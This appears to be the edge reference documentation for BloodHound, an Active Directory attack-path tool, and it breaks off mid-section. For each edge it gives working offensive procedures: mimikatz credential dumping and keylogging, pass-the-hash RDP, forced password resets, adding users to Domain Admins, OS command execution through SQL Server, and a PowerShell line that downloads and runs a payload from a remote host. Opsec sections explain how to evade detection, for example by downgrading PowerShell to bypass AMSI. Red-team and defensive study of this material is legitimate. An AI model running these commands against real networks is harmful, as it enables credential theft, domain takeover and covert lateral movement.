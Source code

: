 Edges
=====

Edges are part of the graph construct, and are represented as links that
connect one node to another. For example, this shows the user node for
David McGuire connected to two groups, "Domain Admins" and "Domain Users",
via the "MemberOf" edge, indicating this user belongs to both of those
groups:

.. image:: ../images/davidmcguire-edges.png
   :width: 700px
   :align: center
   :alt: David McGuire is a member of two groups

The direction of the edge always indicates the direct of attack, or the
direction of escalating privileges. For example, because the David McGuire
user belongs to the Domain Users and Domain Admins group, his user has the
same privileges both of those groups have.

|

----

|

AdminTo
^^^^^^^

This edge indicates that principal is a local administrator on the target
computer. By default, administrators have several ways to perform remote
code execution on Windows systems, including via RDP, WMI, WinRM, the
Service Control Manager, and remote DCOM execution.

Further, administrators have several options for impersonating other users
logged onto the system, including plaintext password extraction, token
impersonation, and injecting into processes running as another user.

Finally, administrators can often disable host-based security controls that
would otherwise prevent the aforementioned techniques.

Abuse Info
----------

There are several ways to pivot to a Windows system. If using Cobalt
Strike's beacon, check the help info for the commands "psexec", "psexec_psh",
"wmi", and "winrm". With Empire, consider the modules for Invoke-PsExec,
Invoke-DCOM, and Invoke-SMBExec.

With Metasploit, consider the modules "exploit/windows/smb/psexec",
"exploit/windows/winrm/winrm_script_exec", and
"exploit/windows/local/ps_wmi_exec".

Additionally, there are several manual methods for remotely executing code on
the machine, including via RDP, with the service control binary and
interaction with the remote machine's service control manager, and remotely
instantiating DCOM objects. For more information about these lateral movement
techniques, see the References section below.

**Gathering credentials**

The most well-known tool for gathering credentials from a Windows system is
mimikatz. mimikatz is built into several agents and toolsets, including
Cobalt Strike's beacon, Empire, and Meterpreter. While running in a high
integrity process with SeDebugPrivilege, execute one or more of mimikatz's
credential gathering techniques (e.g.: sekurlsa::wdigest,
sekurlsa::logonpasswords, etc.), then parse or investigate the output to
find clear-text credentials for other users logged onto the system.
            
You may also gather credentials when a user types them or copies them to
their clipboard! Several keylogging capabilities exist, several agents and
toolsets have them built-in. For instance, you may use meterpreter's
"keyscan_start" command to start keylogging a user, then "keyscan_dump" to
return the captured keystrokes. Or, you may use PowerSploit's
Invoke-ClipboardMonitor to periodically gather the contents of the user's
clipboard.

**Token Impersonation**

You may run into a situation where a user is logged onto the system, but
you can't gather that user's credential. This may be caused by a host-based
security product, lsass protection, etc. In those circumstances, you may
abuse Windows' token model in several ways. First, you may inject your agent
into that user's process, which will give you a process token as that user,
which you can then use to authenticate to other systems on the network. Or,
you may steal a process token from a remote process and start a thread in
your agent's process with that user's token. For more information about
token abuses, see the References tab.

**Disabling host-based security controls**

Several host-based controls may affect your ability to execute certain
techniques, such as credential theft, process injection, command line
execution, and writing files to disk. Administrators can often disable these
host-based controls in various ways, such as stopping or otherwise disabling
a service, unloading a driver, or making registry key changes. For more
information, see the References section below.

Opsec Considerations
--------------------

There are several forensic artifacts generated by the techniques described
above. For instance, lateral movement via PsExec will generate 4697 events on
the target system. If the target organization is collecting and analyzing those
events, they may very easily detect lateral movement via PsExec. 

Additionally, an EDR product may detect your attempt to inject into lsass and
alert a SOC analyst. There are many more opsec considerations to keep in mind
when abusing administrator privileges. For more information, see the References
section below.

References
----------

https://attack.mitre.org/wiki/Lateral_Movement

**Gathering Credentials**

* http://blog.gentilkiwi.com/mimikatz
* https://github.com/gentilkiwi/mimikatz
* https://adsecurity.org/?page_id=1821
* https://attack.mitre.org/wiki/Credential_Access

**Token Impersonation**

* https://labs.mwrinfosecurity.com/assets/BlogFiles/mwri-security-implications-of-windows-access-tokens-2008-04-14.pdf
* https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-TokenManipulation.ps1
* https://attack.mitre.org/wiki/Technique/T1134

**Disabling host-based security controls**

* https://blog.netspi.com/10-evil-user-tricks-for-bypassing-anti-virus/
* https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/

**Opsec Considerations**

* https://blog.cobaltstrike.com/2017/06/23/opsec-considerations-for-beacon-commands/

|

----

|

MemberOf
^^^^^^^^

Groups in active directory grant their members any privileges the group itself
has. If a group has rights to another principal, users/computers in the group,
as well as other groups inside the group inherit those permissions.

Abuse Info
----------

No abuse is necessary. This edge simply indicates that a principal belongs to a
security group.

Opsec Considerations
--------------------

No opsec considerations apply to this edge.

References
----------

* https://adsecurity.org/?tag=ad-delegation
* https://www.itprotoday.com/management-mobility/view-or-remove-active-directory-delegated-permissions

|

----

|

HasSession
^^^^^^^^^^

When a user authenticates to a computer, they often leave credentials exposed on
the system, which can be retrieved through LSASS injection, token manipulation
or theft, or injecting into a user's process.

Any user that is an administrator to the system has the capability to retrieve
the credential material from memory if it still exists.

.. note:: A session does not guarantee credential material is present, only possible.

This video explains exactly how BloodHound's session data collection method works:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/q86VgM2Tafc?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

Abuse Info
----------

When a user has a session on the computer, you may be able to obtain credentials for
the user via credential dumping or token impersonation. You must be able to move
laterally to the computer, have administrative access on the computer, and the user
must have a non-network logon session on the computer.

Once you have established a Cobalt Strike Beacon, Empire agent, or other implant on
the target, you can use mimikatz to dump credentials of the user that has a session
on the computer. While running in a high integrity process with SeDebugPrivilege,
execute one or more of mimikatz's credential gathering techniques (e.g.:
sekurlsa::wdigest, sekurlsa::logonpasswords, etc.), then parse or investigate the
output to find clear-text credentials for other users logged onto the system.

You may also gather credentials when a user types them or copies them to their
clipboard! Several keylogging capabilities exist, several agents and toolsets have
them built-in. For instance, you may use meterpreter's "keyscan_start" command to
start keylogging a user, then "keyscan_dump" to return the captured keystrokes. Or,
you may use PowerSploit's Invoke-ClipboardMonitor to periodically gather the contents
of the user's clipboard.

**Token Impersonation**

You may run into a situation where a user is logged onto the system, but you can't
gather that user's credential. This may be caused by a host-based security product,
lsass protection, etc. In those circumstances, you may abuse Windows' token model in
several ways. First, you may inject your agent into that user's process, which will
give you a process token as that user, which you can then use to authenticate to other
systems on the network. Or, you may steal a process token from a remote process and
start a thread in your agent's process with that user's token. For more information
about token abuses, see the References section below.

User sessions can be short lived and only represent the sessions that were present at
the time of collection. A user may have ended their session by the time you move to
the computer to target them. However, users tend to use the same machines, such as the
workstations or servers they are assigned to use for their job duties, so it can be
valuable to check multiple times if a user session has started.

Opsec Considerations
--------------------

An EDR product may detect your attempt to inject into lsass and alert a SOC analyst.
There are many more opsec considerations to keep in mind when stealing credentials or
tokens. For more information, see the References section.

References
----------

* http://blog.gentilkiwi.com/mimikatz
* https://github.com/gentilkiwi/mimikatz
* https://adsecurity.org/?page_id=1821
* https://attack.mitre.org/wiki/Credential_Access

**Token Impersonation**

* https://labs.mwrinfosecurity.com/assets/BlogFiles/mwri-security-implications-of-windows-access-tokens-2008-04-14.pdf
* https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-TokenManipulation.ps1
* https://attack.mitre.org/wiki/Technique/T1134

|

----

|

ForceChangePassword
^^^^^^^^^^^^^^^^^^^

This edge indicates that the principal can reset the password of the target user without
knowing the current password of that user.

To see an example of this edge being abused, see this clip from Derbycon 2017:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/z8thoG7gPd0?t=2291?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

Abuse Info
----------

There are at least two ways to execute this attack. The first and most obvious is by
using the built-in net.exe binary in Windows (e.g.: net user dfm.a Password123! /domain).
See the opsec considerations section for why this may be a bad idea. The second, and
highly recommended method, is by using the Set-DomainUserPassword function in PowerView.
This function is superior to using the net.exe binary in several ways. For instance, you
can supply alternate credentials, instead of needing to run a process as or logon as the
user with the ForceChangePassword privilege. Additionally, you have much safer execution
options than you do with spawning net.exe (see the opsec info below).

To abuse this privilege with PowerView's Set-DomainUserPassword, first import PowerView
into your agent session or into a PowerShell instance at the console. You may need to
authenticate to the Domain Controller as the user with the password reset privilege if
you are not running a process as that user.

To do this in conjunction with Set-DomainUserPassword, first create a PSCredential object
(these examples comes from the PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('CONTOSO\\dfm.a', $SecPassword)

Then create a secure string object for the password you want to set on the target user:

::

  $UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

Finally, use Set-DomainUserPassword, optionally specifying $Cred if you are not already
running within a process as the user with the password reset privilege

::

  Set-DomainUserPassword -Identity andy -AccountPassword $UserPassword -Credential $Cred

Now that you know the target user's plain text password, you can either start a new agent
as that user, or use that user's credentials in conjunction with PowerView's ACL abuse
functions, or perhaps even RDP to a system the target user has access to. For more ideas
and information, see the references section below.

Opsec Considerations
--------------------

Executing this abuse with the net binary will necessarily require command line execution.
If your target organization has command line logging enabled, this is a detection
opportunity for their analysts. 

Regardless of what execution procedure you use, this action will generate a 4724 event on
the domain controller that handled the request. This event may be centrally collected and
analyzed by security analysts, especially for users that are obviously very high
privilege groups (i.e.: Domain Admin users). Also be mindful that PowerShell v5 introduced
several key security features such as script block logging and AMSI that provide security
analysts another detection opportunity. You may be able to completely evade those features
by downgrading to PowerShell v2. 

Finally, by changing a service account password, you may cause that service to stop
functioning properly. This can be bad not only from an opsec perspective, but also a client
management perspective. Be careful!

References
----------

* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://www.youtube.com/watch?v=z8thoG7gPd0
* https://www.sixdub.net/?p=579
* https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4724

|

----

|

AddMembers
^^^^^^^^^^

This edge indicates the principal has the ability to add arbitrary principlas to the target
security group. Because of security group delegation, the members of a security group have
the same privileges as that group.

By adding yourself to a group and refreshing your token, you gain all the same privileges
that group has.

See this clip for an example of this edge being abused:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/z8thoG7gPd0?t=2123?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

Abuse Info
----------

There are at least two ways to execute this attack. The first and most obvious is by using
the built-in net.exe binary in Windows (e.g.: net group "Domain Admins" dfm.a /add
/domain). See the opsec considerations tab for why this may be a bad idea. The second, and
highly recommended method, is by using the Add-DomainGroupMember function in PowerView.
This function is superior to using the net.exe binary in several ways. For instance, you
can supply alternate credentials, instead of needing to run a process as or logon as the
user with the AddMember privilege. Additionally, you have much safer execution options than
you do with spawning net.exe (see the opsec tab).

To abuse this privilege with PowerView's Add-DomainGroupMember, first import PowerView into
your agent session or into a PowerShell instance at the console. 

You may need to authenticate to the Domain Controller as the user with the AddMembers right
if you are not running a process as that user. To do this in conjunction with
Add-DomainGroupMember, first create a PSCredential object (these examples comes from the
PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)

Then, use Add-DomainGroupMember, optionally specifying $Cred if you are not already running
within a process owned by the user with the AddMembers privilege

::

  Add-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y' -Credential $Cred

Finally, verify that the user was successfully added to the group with PowerView's Get-DomainGroupMember:

::

  Get-DomainGroupMember -Identity 'Domain Admins'

Opsec Considerations
--------------------

Executing this abuse with the net binary will require command line execution. If your target
organization has command line logging enabled, this is a detection opportunity for their
analysts.

Regardless of what execution procedure you use, this action will generate a 4728 event on the
domain controller that handled the request. This event may be centrally collected and analyzed
by security analysts, especially for groups that are obviously very high privilege groups
(i.e.: Domain Admins). Also be mindful that Powershell 5 introduced several key security
features such as script block logging and AMSI that provide security analysts another detection
opportunity. 

You may be able to completely evade those features by downgrading to PowerShell v2.

References
----------

* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://www.youtube.com/watch?v=z8thoG7gPd0
* https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4728

|

----

|

CanRDP
^^^^^^

Remote Desktop access allows you to enter an interactive session with the target computer. If
authenticating as a low privilege user, a privilege escalation may allow you to gain high
privileges on the system.
    
.. note:: This edge does not guarantee privileged execution.

Abuse Info
---------

Abuse of this privilege will depend heavily on the type of access you have. 
            
**PlainText Credentials with Interactive Access**

With plaintext credentials, the easiest way to exploit this privilege is using the built-in
Windows Remote Desktop Client (mstsc.exe). Open mstsc.exe and input the target computer name.
When prompted for credentials, input the credentials for the user with RDP rights to initiate
the remote desktop connection.

**Password Hash with Interactive Access**

With a password hash, exploitation of this privilege will require local administrator privileges
on a system, and the remote server must allow Restricted Admin Mode. 

First, inject the NTLM credential for the user you're abusing into memory using mimikatz:

::

  lsadump::pth /user:dfm /domain:testlab.local /ntlm:<ntlm hash> /run:"mstsc.exe /restrictedadmin"

This will open a new RDP window. Input the target computer name to initiate the remote desktop
connection. If the target server does not support Restricted Admin Mode, the session will fail.

**Plaintext Credentials without Interactive Access**

This method will require some method of proxying traffic into the network, such as the socks command
in Cobalt Strike, or direct internet connection to the target network, as well as the xfreerdp
(suggested because of support of Network Level Authentication (NLA)) tool, which can be installed
from the freerdp-x11 package. If using socks, ensure that proxychains is configured properly. Initiate
the remote desktop connection with the following command:

::

  proxychains xfreerdp /u:dfm /d:testlab.local /v:<computer ip>

xfreerdp will prompt you for a password, and then initiate the remote desktop connection.

**Password Hash without Interactive Access**

This method will require some method of proxying traffic into the network, such as the socks command
in cobaltstrike, or direct internet connection to the target network, as well as the xfreerdp
(suggested because of support of Network Level Authentication (NLA)) tool, which can be installed
from the freerdp-x11 package. Additionally, the target computer must allow Restricted Admin Mode. If
using socks, ensure that proxychains is configured properly. Initiate the remote desktop connection
with the following command:

::

  proxychains xfreerdp /pth:<ntlm hash> /u:dfm /d:testlab.local /v:<computer ip>

This will initiate the remote desktop connection, and will fail if Restricted Admin Mode is not
enabled.

Opsec Considerations
--------------------

If the target computer is a workstation and a user is currently logged on, one of two things will
happen. If the user you are abusing is the same user as the one logged on, you will effectively take
over their session and kick the logged on user off, resulting in a message to the user. If the users
are different, you will be prompted to kick the currently logged on user off the system and log on.
If the target computer is a server, you will be able to initiate the connection without issue
provided the user you are abusing is not currently logged in.

Remote desktop will create Logon and Logoff events with the access type RemoteInteractive.

References
----------

* https://michael-eder.net/post/2018/native_rdp_pass_the_hash/
* https://www.kali.org/penetration-testing/passing-hash-remote-desktop/

|

----

|

CanPSRemote
^^^^^^^^^^^

PS Session access allows you to enter an interactive session with the target computer. If
authenticating as a low privilege user, a privilege escalation may allow you to gain high privileges
on the system.
    
.. note:: This edge does not guarantee privileged execution.

Abuse Info
---------

Abuse of this privilege will require you to have interactive access with a system on the network.
    
A remote session can be opened using the New-PSSession powershell command.

You may need to authenticate to the Domain Controller as the user with the PSRemote rights on the
target computer if you are not running as that user. To do this in conjunction with New-PSSession,
first create a PSCredential object (these examples comes from the PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)

Then use the New-PSSession command with the credential we just created:

::

  $session = New-PSSession -ComputerName <target computer name> -Credential $Cred

This will open a PowerShell session on the target computer

You can then run a command on the system using the Invoke-Command cmdlet and the session you just
created

::

  Invoke-Command -Session $session -ScriptBlock {Start-Process cmd}

Cleanup of the session is done with the Disconnect-PSSession and Remove-PSSession commands.

::

  Disconnect-PSSession -Session $session
  Remove-PSSession -Session $session

An example of running through this Cobalt Strike for lateral movement is as follows:

::

  powershell $session =  New-PSSession -ComputerName win-2016-001; Invoke-Command -Session $session
  -ScriptBlock {IEX ((new-object net.webclient).downloadstring('http://192.168.231.99:80/a'))};
  Disconnect-PSSession -Session $session; Remove-PSSession -Session $session

Opsec Considerations
--------------------

When using the PowerShell functions, keep in mind that PowerShell v5 introduced several security
mechanisms that make it much easier for defenders to see what's going on with PowerShell in their
network, such as script block logging and AMSI.

Entering a PSSession will generate a logon event on the target computer.

References
----------

* https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7
* https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command?view=powershell-7

|

----

|

ExecuteDCOM
^^^^^^^^^^^

This can allow code execution under certain conditions by instantiating a COM object on a remote
machine and invoking its methods.

Abuse Info
---------

The PowerShell script Invoke-DCOM implements lateral movement using a variety of different COM
objects (ProgIds: MMC20.Application, ShellWindows, ShellBrowserWindow, ShellBrowserWindow, and
ExcelDDE).  LethalHTA implements lateral movement using the HTA COM object (ProgId: htafile).  

One can manually instantiate and manipulate COM objects on a remote machine using the following
PowerShell code.  If specifying a COM object by its CLSID:

:: 

  $ComputerName = <target computer name>              # Remote computer
  $clsid = “{fbae34e8-bf95-4da8-bf98-6c6e580aa348}”   # GUID of the COM object
  $Type = [Type]::GetTypeFromCLSID($clsid, $ComputerName)
  $ComObject = [Activator]::CreateInstance($Type)

If specifying a COM object by its ProgID:

::

  $ComputerName = <target computer name>              # Remote computer
  $ProgId = “<NAME>”                                  # GUID of the COM object
  $Type = [Type]::GetTypeFromProgID($ProgId, $ComputerName)
  $ComObject = [Activator]::CreateInstance($Type)

Opsec Considerations
--------------------

The artifacts generated when using DCOM vary depending on the specific COM object used.

DCOM is built on top of the TCP/IP RPC protocol (TCP ports 135 + high ephemeral ports) and may
leverage several different RPC interface UUIDs(outlined here). In order to use DCOM, one must
be authenticated.  Consequently, logon events and authentication-specific logs(Kerberos, NTLM,
etc.) will be generated when using DCOM.  

Processes may be spawned as the user authenticating to the remote system, as a user already
logged into the system, or may take advantage of an already spawned process.  

Many DCOM servers spawn under the process “svchost.exe -k DcomLaunch” and typically have a
command line containing the string “ -Embedding” or are executing inside of the DLL hosting
process “DllHost.exe /Processid:{<AppId>}“ (where AppId is the AppId the COM object is
registered to use).  Certain COM services are implemented as service executables; consequently,
service-related event logs may be generated.

References
----------

* https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/
* https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/
* https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/
* https://enigma0x3.net/2017/11/16/lateral-movement-using-outlooks-createobject-method-and-dotnettojscript/
* https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom
* https://www.cybereason.com/blog/dcom-lateral-movement-techniques
* https://bohops.com/2018/04/28/abusing-dcom-for-yet-another-lateral-movement-technique/
* https://attack.mitre.org/wiki/Technique/T1175

**Invoke-DCOM**

* https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Invoke-DCOM.ps1
            
**LethalHTA**

* https://codewhitesec.blogspot.com/2018/07/lethalhta.html
* https://github.com/codewhitesec/LethalHTA/

|

----

|

SQLAdmin
^^^^^^^^

The user is a SQL admin on the target computer

There is at least one MSSQL instance running on the computer where the user with the inbound
SQLAdmin edge is the account configured to run the SQL Server instance. The typical configuration
for MSSQL is to have the local Windows account or Active Directory domain account that is
configured to run the SQL Server service (the primary database engine for SQL Server) have
sysadmin privileges in the SQL Server application. As a result, the SQL Server service account
can be used to log into the SQL Server instance remotely, read all of the databases (including
those protected with transparent encryption), and run operating systems command through SQL
Server (as the service account) using a variety of techniques.

For Windows systems that have been joined to an Active Directory domain, the SQL Server instances
and the associated service account can be identified by executing a LDAP query for a list of
"MSSQLSvc" Service Principal Names (SPN) as a domain user. In short, when the Database Engine
service starts, it attempts to register the SPN, and the SPN is then used to help facilitate
Kerberos authentication.

Author: Scott Sutherland

This clip demonstrates how to abuse this edge:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/fqYoOoghqdE?t=2141?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

Abuse Info
---------

Scott Sutherland from NetSPI has authored PowerUpSQL, a PowerShell Toolkit for Attacking SQL
Server. Major contributors include Antti Rantasaari, Eric Gruber, and Thomas Elling. Before
executing any of the below commands, download PowerUpSQL and laod it into your PowerShell
instance. Get PowerUpSQL here: https://github.com/NetSPI/PowerUpSQL

**Finding Data**

Get a list of databases, sizes, and encryption status:

::

  Get-SQLDatabaseThreaded –Verbose -Instance sqlserver\instance –Threads 10 -NoDefaults

Search columns and data for keywords:

::

  Get-SQLColumnSampleDataThreaded –Verbose -Instance sqlserver\instance –Threads 10 –Keyword “card, password” –SampleSize 2 –ValidateCC -NoDefaults | ft -AutoSize

**Executing Commands**

Below are examples of PowerUpSQL functions that can be used to execute operating system
commands on remote systems through SQL Server using different techniques.  The level of
access on the operating system will depend largely what privileges are provided to the
service account.  However, when domain accounts are configured to run SQL Server services,
it is very common to see them configured with local administrator privileges.

xp_cmdshell Execute Example:

::

  Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10 -Instance sqlserver\instance

Agent Job Execution Examples:

::


  Invoke-SQLOSCmdAgentJob -Verbose -SubSystem CmdExec -Command "echo hello > c:\windows\temp\test1.txt" -Instance sqlserver\instance -username myuser -password mypassword

::

  Invoke-SQLOSCmdAgentJob -Verbose -SubSystem PowerShell -Command 'write-output "hello world" | out-file c:\windows\temp\test2.txt' -Sleep 20 -Instance sqlserver\instance -username myuser -password mypassword

::

  Invoke-SQLOSCmdAgentJob -Verbose -SubSystem VBScript -Command 'c:\windows\system32\cmd.exe /c echo hello > c:\windows\temp\test3.txt' -Instance sqlserver\instance -username myuser -password mypassword

::

  Invoke-SQLOSCmdAgentJob -Verbose -SubSystem JScript -Command 'c:\windows\system32\cmd.exe /c echo hello > c:\windows\temp\test3.txt' -Instance sqlserver\instance -username myuser -password mypassword

Python Subsystem Execution:

::

  Invoke-SQLOSPython -Verbose -Command "Whoami" -Instance sqlserver\instance

R subsystem Execution Example:

::

  Invoke-SQLOSR -Verbose -Command "Whoami" -Instance sqlserver\instance

OLE Execution Example:

::

  Invoke-SQLOSOle -Verbose -Command "Whoami" -Instance sqlserver\instance

CLR Execution Example:

::

  Invoke-SQLOSCLR -Verbose -Command "Whoami" -Instance sqlserver\instance

Custom Extended Procedure Execution Example:

1. Create a custom extended stored procedure:

::

  Create-SQLFileXpDll -Verbose -OutFile c:\temp\test.dll -Command "echo test > c:\temp\test.txt" -ExportName xp_test

2. Host the test.dll on a share readable by the SQL Server service account:

::

  Get-SQLQuery -Verbose -Query "sp_addextendedproc 'xp_test', '\\yourserver\yourshare\myxp.dll'" -Instance sqlserver\instance

3. Run extended stored procedure:

::

  Get-SQLQuery -Verbose -Query "xp_test" -Instance sqlserver\instance

4. Remove extended stored procedure:

::

  Get-SQLQuery -Verbose -Query "sp_dropextendedproc 'xp_test'" -Instance sqlserver\instance

Author: Scott Sutherland

Opsec Considerations
--------------------

Prior to executing operating system commands through SQL Server, review the audit configuration
and choose a command execution method that is not being monitored.
            
View audits:

::

  SELECT * FROM sys.dm_server_audit_status

View server specifications:

::

  SELECT audit_id, 
  a.name as audit_name, 
  s.name as server_specification_name, 
  d.audit_action_name, 
  s.is_state_enabled, 
  d.is_group, 
  d.audit_action_id, 
  s.create_date, 
  s.modify_date 
  FROM sys.server_audits AS a 
  JOIN sys.server_audit_specifications AS s 
  ON a.audit_guid = s.audit_guid 
  JOIN sys.server_audit_specification_details AS d 
  ON s.server_specification_id = d.server_specification_id

View database specifications:

::

  SELECT a.audit_id, 
  a.name as audit_name, 
  s.name as database_specification_name, 
  d.audit_action_name, 
  d.major_id,
  OBJECT_NAME(d.major_id) as object,
  s.is_state_enabled, 
  d.is_group, s.create_date, 
  s.modify_date, 
  d.audited_result 
  FROM sys.server_audits AS a 
  JOIN sys.database_audit_specifications AS s 
  ON a.audit_guid = s.audit_guid 
  JOIN sys.database_audit_specification_details AS d 
  ON s.database_specification_id = d.database_specification_id

If server audit specifications are configured on the SQL Server, event ID 15457 logs may be
created in the Windows Application log when SQL Server level configurations are changed to
facilitate OS command execution.

If database audit specifications are configured on the SQL Server, event ID 33205 logs may
be created in the Windows Application log when Agent and database level configuration changes
are made.

A summary of the what will show up in the logs, along with the TSQL queries for viewing and
configuring audit configurations can be found at https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/Audit%20Command%20Execution%20Template.sql

Author: Scott Sutherland

References
----------

* https://github.com/NetSPI/PowerUpSQL/wiki
* https://www.slideshare.net/nullbind/powerupsql-2018-blackhat-usa-arsenal-presentation
* https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#sqlserver
* https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/configure-windows-service-accounts-and-permissions?view=sql-server-2017
* https://blog.netspi.com/finding-sensitive-data-domain-sql-servers-using-powerupsql/

|

----

|

AllowedToDelegate
^^^^^^^^^^^^^^^^^

The constrained delegation primitive allows a principal to authenticate as any user to specific
services (found in the msds-AllowedToDelegateTo LDAP property in the source node tab) on the
target computer. That is, a node with this privilege can impersonate any domain principal
(including Domain Admins) to the specific service on the target host. One caveat- impersonated
users can not be in the "Protected Users" security group or otherwise have delegation privileges
revoked.
            
An issue exists in the constrained delegation where the service name (sname) of the resulting
ticket is not a part of the protected ticket information, meaning that an attacker can modify
the target service name to any service of their choice. For example, if msds-AllowedToDelegateTo
is “HTTP/host.domain.com”, tickets can be modified for LDAP/HOST/etc. service names, resulting
in complete server compromise, regardless of the specific service listed.

Abuse Info
---------

Abusing this privilege can utilize Benjamin Delpy’s Kekeo project, proxying in traffic generated
from the Impacket library, or using the Rubeus project's s4u abuse.

In the following example, *victim* is the attacker-controlled account (i.e. the hash is known)
that is configured for constrained delegation. That is, *victim* has the "HTTP/PRIMARY.testlab.local"
service principal name (SPN) set in its msds-AllowedToDelegateTo property. The command first requests
a TGT for the *victim* user and executes the S4U2self/S4U2proxy process to impersonate the "admin"
user to the "HTTP/PRIMARY.testlab.local" SPN. The alternative sname "cifs" is substituted in to the
final service ticket and the ticket is submitted to the current logon session. This grants the attacker
the ability to access the file system of PRIMARY.testlab.local as the "admin" user.

::

